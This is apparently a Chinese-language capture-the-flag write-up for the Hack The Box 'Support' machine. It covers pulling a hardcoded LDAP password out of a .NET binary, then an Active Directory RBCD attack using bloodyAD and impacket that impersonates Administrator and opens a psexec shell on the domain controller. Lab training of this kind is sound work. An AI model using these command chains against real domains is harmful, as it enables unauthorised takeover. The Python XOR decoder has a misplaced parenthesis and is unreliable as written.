

# Support

- 練習日期:   2026/07/23
- 考點:      .NET、RBCD

## Initial Access

首先，發現 smb 上有一支 UserInfo 的壓縮檔，下載後可以得到 UserInfo.exe。比較有趣的是，這這題的 UserInfo.exe 需要使用 Windows 作業系統執行。執行之後，發現這支程式有兩個功能：find user 跟 get user info。嘗試幾次之後可以發現，./UserInfo.exe find -first '*' 可以印出使用者的 first name；./UserInfo.exe find -last '*' 可以印出使用者的 last name。

題外話，意外發現有個指令 `mono` 可以在 linux 上執行 Windows 的 .NET 程式。

```bash
# 安裝
sudo apt update
sudo apt install mono-complete
# 使用
mono UserInfo.exe
```

這邊有個關鍵，`如果這支 UserInfo 可以查詢使用者，就表示這支程式有 DC 的登入帳號`。接下來提供四種方法：

### 方法一

使用 ilspycmd 反編譯。

```bash
# 安裝
sudo apt install dotnet-sdk-10.0    # 或當前可用版本
dotnet --version
dotnet tool install -g ilspycmd
# 反編譯
ilspycmd -p UserInfo.exe -o ./decompiled    # 反編譯成專案，並存到 decompiled 底下
ilspycmd -il UserInfo.exe                   # 看 IL code
ilspycmd -l c UserInfo.exe                  # 看 列出所有 class
```

### 方法二

使用 monodis 反編譯。輸出會是 IL（中繼語言），非 C#，但幾乎不會有相容性問題。

```bash
monodis UserInfo.exe > UserInfo.il          # mono 內建
```

### 方法三

直接 strings 暴力找。

```bash
strings UserInfo.exe | grep -rain 'pass'
strings UserInfo.exe | grep -iE 'password|passwd|pwd|key'
```

### 方法四

使用 wireshark 攔截封包檢查。這個作法也很直觀，基本上就是在 UserInfo.exe 執行的過程中，啟動 wireshark 來聽他到底傳了什麼出去。

## Get Password

前三者若是取得 password base64 的密文，需要多進行一步解密的動作，基本上就是把我們確認到的加密方法反向：

```python
from base64 import b64decode

b64pass = b"0Nv32PTwgYjzg9/8j5TbmvPd3e7WhtWWyuPsyO76/Y+U193E"
key = b"armando"
enc = b64decode(b64pass)

print(bytearray([enc[i] ^ ord(key[i % len(key)]) ^ 223 for i in range(len(enc)).decode())
```

帳號的部分，同樣是檢視反編譯的結果可以看到 UserInfo.exe 是使用 `ldap` 登入。最後可以確認這支帳號是否可用：

```bash
nxc smb support.htb -u ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz'
```

## Lateral movement

有了基本帳號，我們開始用這支 ldap 帳號亂撈資料。這邊有兩個好用的指令：

```bash
# ldap 原生工具，比較彈性
ldapsearch
ldapsearch -h support.htb -D 'ldap@support.htb' -w 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -b 'DC=support,DC=htb' > ldap_search
# AD 專用工具
ldapdomaindump
ldapdomaindump -u support.htb\\ldap -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' support.htb -o ldap_domain
```

經過一些觀察，發現使用者 `support`，且 Info 中的內容 `Ironside47pleasure40Watchful` 很可能就是密碼。我們同樣透過 nxc 來確認，發現可以順利登入：

```bash
nxc winrm -u support -p Ironside47pleasure40Watchful support.htb
```

## Privilege Escalation

既然是 AD，那就 bloodhound-python 看看吧

```bash
bloodhound-python -u 'ldap' -p 'nvEfEK16^1aM4$e7AclUf8x$tRWxPWO1%lmz' -d support.htb -ns 10.129.9.216 -c All --zip
```

發現 support 這支帳號對 DC 有 GenericALL 的權限，這邊可以考慮使用 RBCD（Resource-Based Constrained Delegation）。只要我們擁有對目標物件的寫入權限，就可以在目標物件上建立一個可控制（Fake）的電腦帳號，設定 RBCD（AllowedToActOnBehalf），接著即可以透過 S4U（Service for User）假冒 Admin 取得特定服務的 ST（Service Ticket），而得以以最高權限存取目標物件。~~講是這樣講，但細節我也沒很懂~~



這邊提供幾個做法：

### 方法一

bloodyAD + impacket

```bash
# 建立假機器
bloodyAD --host 10.129.10.157 -d support.htb -u support -p 'Ironside47pleasure40Watchful' add computer FAKE 'FAKE'
# 設定 RBCD -> FAKE$ 可以代表他人存取 DC
bloodyAD --host 10.129.10.157 -d support.htb -u support -p 'Ironside47pleasure40Watchful' add rbcd DC$ FAKE$
# 拿票
impacket-getST -spn 'cifs/dc.support.htb' -impersonate Administrator -dc-ip 10.129.10.157 'support.htb/FAKE$:FAKE'

# 時間對齊 + 登入
sudo ntpdate -u support.htb
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
impacket-psexec -k -no-pass dc.support.htb
```

- `$` 表示機器帳號
- 查帳號資訊用這個指令 `ldapsearch -x -H ldap://10.129.10.157 \
  -D 'support\support' -w 'Ironside47pleasure40Watchful' \
  -b 'DC=support,DC=htb' '(objectClass=computer)' sAMAccountName dNSHostName`
- GetST V.S. Get TGT: TGT(Ticket Granting Ticket)用於證明我確實是這支帳號；TS(Service Ticket)用於存取某項服務，所以這邊只針對想要以 admin 身份存取 DC，直接使用 GetST 最快。
- cifs（Common Internet File System）就是 SMB，其他還有 `http` 用於 WinRM、`ldap`及`mssqlsvc`。

### 方法二

impacket 打天下

```bash
# 建立假機器
impacket-addcomputer 'support.htb/support:Ironside47pleasure40Watchful' -method SAMR -computer-name 'FAKE2' -computer-pass 'FAKE2' -dc-ip 10.129.10.157
# 設定 RBCD -> FAKE2$ 可以代表他人存取 DC
impacket-rbcd 'support.htb/support:Ironside47pleasure40Watchful' -delegate-to 'DC$' -delegate-from 'FAKE2$' -dc-ip 10.129.10.157 -action write 
# 拿票
impacket-getST -spn 'cifs/dc.support.htb' -impersonate Administrator -dc-ip 10.129.10.157 'support.htb/FAKE2$:FAKE2'
# 登入
export KRB5CCNAME=Administrator@cifs_dc.support.htb@SUPPORT.HTB.ccache
impacket-psexec -k -no-pass dc.support.htb
```